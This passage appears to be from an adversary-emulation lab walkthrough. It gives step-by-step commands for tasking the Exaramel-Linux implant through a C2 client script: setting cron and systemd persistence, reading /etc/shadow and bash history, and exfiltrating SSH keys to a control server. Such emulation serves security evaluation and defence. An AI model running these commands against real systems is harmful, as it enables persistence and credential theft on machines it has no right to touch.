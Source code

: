 
In your lower terminal, enter the control server directory. Interaction with Exaramel-Linux (the implant) will occur through this terminal.

```
cd ~/wizard_spider/Resources/control_server
```

Set cron persistence.

```bash
# Exaramel for Linux uses crontab for persistence if it does not have root privileges.

./evalsC2client.py --set-task exaramel-implant "persist cron"
```

[Source Code](/Resources/Exaramel/configur/configur.go#L212)

Set systemd persistence.

```bash
# Exaramel for Linux has a hardcoded location under systemd that it uses to achieve persistence if it is running as root.

./evalsC2client.py --set-task exaramel-implant "persist systemd"
```

[Source Code](/Resources/Exaramel/configur/configur.go#L261)

Get /etc/shadow.

```bash
# Note: not in CTI but in TTP scope
# OS Credential Dumping: /etc/passwd and /etc/shadow

./evalsC2client.py --set-task exaramel-implant "exec cat /etc/shadow"
```

Get bash history.

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Bash History

./evalsC2client.py --set-task exaramel-implant "exec cat /home/fherbert/.bash_history"
```

[Source Code](/Resources/Exaramel/worker/worker.go#L156)

Download SSH keys from caladan to control server (HTTPS to 192.168.0.4:8443)

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Private Keys

./evalsC2client.py --set-task exaramel-implant "get /home/fherbert/.ssh/id_rsa caladan_id_rsa"
```

```bash
./evalsC2client.py --set-task exaramel-implant "get /home/fherbert/.ssh/id_rsa.pub caladan_id_rsa.pub"
```
